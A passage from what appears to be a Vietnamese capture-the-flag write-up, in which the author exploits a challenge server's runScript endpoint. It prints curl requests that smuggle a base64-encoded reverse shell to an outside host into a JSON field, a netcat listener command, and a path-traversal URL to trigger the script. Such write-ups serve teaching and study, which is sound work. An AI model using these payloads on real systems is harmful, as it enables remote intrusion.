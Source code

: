     ```shell
        curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "rev","name" : "\necho \"c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjE=\" | base64 -d | bash\n","command_log" : "rev","url" : "http://localhost:8888/"}'
    ```

- Gửi đi, và trước khi đến với lần request thứ 2, mình phải tạo một listener trên máy của mình đã (thực ra là VPS mình mượn của một người bạn xứ cảng):

    ```shell
        nc -lvnp 8899
    ```

    ![listener](img/PRP201_9.png)

- Giờ để listener ở đó, ta quay lại với request thứ 2, request để chạy revshell:

    ```json
        {
            "dir" : "rev_tcp",
            "name" : "rev_tcp.sh",
            "command_log" : "rev",
            "url" : "http://localhost:8888/getData?f=/fus/data/../logs/rev.txt"
        }
    ```

    ```shell
        curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "rev_tcp","name" : "rev_tcp.sh","command_log" : "rev","url" : "http://localhost:8888/getData?f=/fus/data/../logs/rev.txt"}'
    ```

- Và gửi đi, rồi quay lại listener:

    ![revshell](img/PRP201_10.png)
